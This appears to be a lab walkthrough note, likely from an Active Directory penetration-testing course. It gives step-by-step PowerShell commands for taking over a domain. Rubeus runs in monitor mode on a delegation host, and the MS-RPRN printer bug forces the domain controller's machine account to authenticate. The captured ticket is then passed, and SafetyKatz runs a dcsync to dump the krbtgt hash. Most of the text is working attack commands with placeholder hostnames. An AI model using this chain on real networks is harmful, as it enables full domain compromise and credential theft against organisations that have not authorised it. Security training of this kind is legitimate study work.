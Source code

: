 Compromise the server and escalate to Domain Admin privileges*
Use rubeus on the server to run on listener mode
```powershell
echo F | xcopy C:\AD\Tools\Rubeus.exe \\<LISTENER MACHINE>\C$\Users\Public\Rubeus.exe /Y
```
log in the server
```powershell
winrs -r:<LISTENER MACHINE> cmd
```
Launch rubeus
```powershell
C:\Users\Public\Rubeus.exe monitor /targetuser:<TARGET MACHINE>$ /interval:5 /nowrap
```
![[Pasted image 20231025163953.png]]
Now use MS-RPRN to force authentication from dcorp-dc$(Machine account)
```powershell
C:\AD\Tools\MS-RPRN.exe \\<TARGET MACHINE> \\<LISTENER MACHINE>
```
Rubeus is triggered
![[Pasted image 20231025164204.png]]
Copy the ticket and use it with rubeus on the local machine
```powershell
C:\AD\Tools\Rubeus.exe ptt /ticket:<TICKET>
```
![[Pasted image 20231025164640.png]]
And launch safetykatz to dcsync
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:<MACHINE>\krbtgt" "exit"
```
